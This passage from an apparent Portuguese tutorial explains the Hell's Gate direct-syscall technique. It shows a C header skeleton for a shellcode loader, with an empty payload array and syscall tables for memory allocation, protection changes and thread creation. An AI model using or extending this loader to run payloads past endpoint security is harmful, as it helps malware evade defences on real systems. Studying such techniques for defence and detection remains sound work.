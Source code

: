 Para chamar uma syscall, primeiro o número da syscall precisa ser passado para a função `HellsGate`. Isso o salva na variável global `wSystemCall` para uso futuro. Em seguida, o `HellDescent` é usado para chamar a syscall, passando os parâmetros da syscall. Isso é demonstrado na função [Payload](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L166).

## Gran Finale

E por fim, juntando todas as peças desse quebra cabeça, temos o exemplo da técnica aplicada no trecho de código a seguir.

```c
#pragma once
#include <Windows.h>
#include "structs.h"

#include <stdio.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

unsigned char payload[] = {};
unsigned int payload_len = sizeof(payload);

/*--------------------------------------------------------------------
  VX Tables
--------------------------------------------------------------------*/
typedef struct _VX_TABLE_ENTRY {
	PVOID   pAddress;
	DWORD64 dwHash;
	WORD    wSystemCall;
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;

typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtCreateThreadEx;
	VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;

/*--------------------------------------------------------------------
  Protótipo das Funções
--------------------------------------------------------------------*/
PTEB RtlGetThreadEnvironmentBlock();
BOOL GetImageExportDirectory(
	_In_ PVOID                     pModuleBase,
	_Out_ PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory
);
BOOL GetVxTableEntry(
	_In_ PVOID pModuleBase,
	_In_ PIMAGE_EXPORT_DIRECTORY pImageExportDirectory,
	_In_ PVX_TABLE_ENTRY pVxTableEntry
);
BOOL Payload(
	_In_ PVX_TABLE pVxTable
);
PVOID VxMoveMemory(
	_Inout_ PVOID dest,
	_In_    const PVOID src,
	_In_    SIZE_T len
);

/*--------------------------------------------------------------------
  Funções Externas -> HellsGate.asm
--------------------------------------------------------------------*/
extern VOID HellsGate(WORD wSystemCall);
```